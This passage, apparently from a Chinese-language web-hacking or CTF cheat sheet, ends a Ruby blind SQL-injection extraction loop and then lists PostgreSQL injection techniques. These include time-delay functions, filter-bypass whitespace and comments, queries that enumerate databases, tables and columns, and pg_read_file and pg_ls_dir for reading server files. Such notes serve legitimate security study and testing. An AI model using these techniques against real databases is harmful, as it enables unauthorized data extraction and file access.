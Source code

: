 ```ruby
            l = mid + 1
        else
            r = mid
        end

    end
    $ans += l.chr
    puts $ans

end

```


## PostgreSQL

- 子字串
    - `substr("abc", 1, 1) => 'a'`
- Ascii function
    - `ascii('x') => 120`
- Char function
    - `chr(65) => A`
- Concatenation
    - `||`
    - `'a' || 'b' => 'ab'`
- Delay function
    - `pg_sleep(5)`
    - `GENERATE_SERIES(1, 1000000)`
- 空白字元
    - `0A 0D 0C 09 20`
- encode / decode
    - `encode('123\\000\\001', 'base64')` => `MTIzAAE=`
    - `decode('MTIzAAE=', 'base64')` => `123\000\001`
- 不支援limit N, M
    - `limit a offset b` 略過前b筆，抓出a筆出來
- 註解
    - `--`
    - `/**/`
- 爆庫名
    - `SELECT datname FROM pg_database`
- 爆表名
    - `SELECT tablename FROM pg_tables WHERE schemaname='dbname'`
- 爆Column
    - `SELECT column_name FROM information_schema.columns WHERE table_name='admin'`

- 其它
    - version()
    - current_database()
    - user
        - current_user
        - `SELECT usename FROM pg_user;`
    - `md5('abc')`
    - `replace('abcdefabcdef', 'cd', 'XX')` => `abXXefabXXef`
    - `pg_read_file(filename, offset, length)`
        - 讀檔
        - 只能讀data_directory下的
    - `pg_ls_dir(dirname)`
        - 列目錄內容
        - 只能列data_directory下的
